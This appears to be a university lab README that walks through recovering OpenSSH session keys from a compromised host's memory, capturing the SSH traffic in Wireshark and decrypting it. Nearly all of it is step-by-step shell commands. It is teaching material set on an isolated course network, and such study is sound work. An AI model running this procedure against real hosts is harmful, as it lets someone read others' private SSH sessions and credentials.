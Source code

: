 # SSH insecurity example
## Prerequisites
1. Host-based network with attack, infrastructure, and target VMs
2. Termsvr container in target VM

## Overview
You will setup a passive listener on an SSH session between two hosts.  In this example, these are our Attack VM (a compromised host where an attacker has local access) and the Target VM.  You will setup the connection between the two but imagine that from the attacker's perspective, that connection was happening by others and you have the local access on one side.  

Inside the Attack VM, you will create a new development container and install utilities (details below) to be able to gather the session keys and decrypt the ssh session by using them.

In addition to having local access, the attacker is able to capture the encrypted traffic going over the network.  For simplicity, you will use Wireshark running also inside the Attack VM.
```
|    Attack VM (client) | <---------SSH---------> | Target VM (server) |
     (devel container)               |
                                     V
 (Wireshark running from Attack VM) Tap
```
### Alternate approach
You can alternately capture the keys from the Target VM (server) side.  Here, you would create a devel container running Ubuntu that would be placed on the Target VM.  
```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
                                  |               (devel container)
                                  V
                                 Tap (Wireshark running from Target VM)
```
For this version, you would instead use the termsvr container and install all the python dependencies there.  Everything else should be identical other than where you are running things from.
## Instructions
1. Launch a new devel container on the Attack VM and setup to capture the ssh session keys (note: we are just downloading the vanilla kali image and do not need a Dockerfile to build one) from it
    ```
    $ docker run --name devel --network host -it kalilinux/kali-last-release:latest /bin/bash 
    # apt-get update
    # apt-get install python3 python3-pip python3-venv git
    # cd ~ && mkdir sandbox && cd sandbox
    # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
    # python3 -m venv sshcrack
    # source sshcrack/bin/activate
    (sshcrack) # pip install cython psutil python-ptrace
    (sshcrack) # python3 netsec-OpenSSH-Session-Key-Recovery/pip-package/openssh_session_keys/keys.py
    ```
1. Connect to the devel container from a second session to install and build OpenSSH-Network-Parser (tool that decrypts the ssh session using the keys, and its pynids dependency)
    ```
    # apt-get install python2 python2-dev virtualenv libglib2.0-0 libpcap-dev libnet1-dev libnids-dev curl
    # curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
    # python2 get-pip.py
    # pip2 install virtualenv
    # python2 -m virtualenv venv-pynids
    # source venv-pynids/bin/activate
    (pynids) # pip2 install gevent tabulate
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-pynids
    (pynids) # cd netsec-pynids 
    (pynids) # python setup.py build
    (pynids) # python setup.py install
    (pynids) # cd ..
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
    (pynids) # cd netsec-OpenSSH-Network-Parser
    (pynids) # pip2 install .
    ```
1. Startup wireshark in attack VM to capture the following ssh session (use filter tcp.port eq 2222) on the interface attached to VMNet1 (on netsec-docker.isi.jhu.edu, 192.168.25.0/24).
1. From the Attack VM, SSH into the termsvr: `# ssh -p 2222 -c aes256-gcm@openssh.com student@term.netsec-docker.isi.jhu.edu`
    * Note that we specify aes256-gcm, which is supported by the network-parser tool (some of the other modes, including the default one, aren't supported)
1. Once you see the keys appear in the first console (i.e., the one running keys.py), you can exit out of the keys.py command and also the ssh session.  For the former, you'll want to save the json formatted portion of the key results that were output to the screen into a keys.json file.  For the latter, save the pcap file.
1. Copy the saved *.pcap into your devel docker container.  Then, in your second devel session, use the network-parser utility to decrypt the *.pcap by providing it and the captured keys to the following command: `(pynids) # network-parser -p <PCAPFILE> -o <OUTPUTDIR> --proto=ssh --popt key=<KEYSJSONFILE> -s -vvvv`
1. Fun and profit!

## Useful links
* https://research.nccgroup.com/2020/11/11/decrypting-openssh-sessions-for-fun-and-profit
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
* https://github.com/jhu-information-security-institute/netsec-pynids
